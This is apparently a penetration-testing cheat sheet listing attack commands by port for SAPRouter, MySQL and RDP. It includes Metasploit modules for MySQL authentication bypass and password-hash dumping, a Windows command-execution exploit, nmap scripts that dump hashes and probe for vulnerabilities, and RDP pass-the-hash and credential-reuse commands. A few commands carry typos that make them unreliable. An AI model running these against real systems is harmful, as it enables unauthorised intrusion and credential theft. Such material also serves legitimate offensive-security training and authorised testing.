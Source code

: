 ### Port 3299 - SAPRouter

Copy of: https://blog.rapid7.com/2014/01/09/piercing-saprouter-with-metasploit/
```bash
msf> use auxiliary/scanner/sap/sap_service_discovery
msf auxiliary(sap_service_discovery) > set RHOSTS $IP
RHOSTS => $IP
msf auxiliary(sap_service_discovery) > run

[*] [SAP] Beginning service Discovery '1.2.3.101'

[+] 1.2.3.101:3299      - SAP Router OPEN
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf > use auxiliary/scanner/sap/sap_router_info_request

```

### Port 3306 - MySQL
```bash
# Enumeration
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 $IP

# Use of metasploit
msf> use auxiliary/scanner/mysql/mysql_version
msf> use uxiliary/scanner/mysql/mysql_authbypass_hashdump
msf> use auxiliary/scanner/mysql/mysql_hashdump #Creds
msf> use auxiliary/admin/mysql/mysql_enum #Creds
msf> use auxiliary/scanner/mysql/mysql_schemadump #Creds
msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds

# Connect Remote
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root@localhost

```
### Port 3339 - Oracle web interface

Basic info about web service (apache, nginx, IIS)

### Port 3389 - RDP
```bash
# enum
nmap -p 3389 --script=rdp-vuln-ms12-020.nse $IP
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>

# Connect with known credetials/hash
rdesktop -u <username> $IP
rdesktop -d <domain> -u <username> -p <password> $IP
xfreerdp /u:[domain\]<username> /p:<password> /v:$IPP
xfreerdp /u:[domain\]<username> /pth:<hash> /v:$IP

# Check known credentials
rdp_check <domain>\<name>:<password>@$IP

[Post-Exploitation](https://github.com/JoelGMSec/AutoRDPwn)

# Launch CMD with other cretentials so they are used in the network
runas /netonly /user<DOMAIN>\<NAME> "cmd.exe" ::The password will be prompted

```

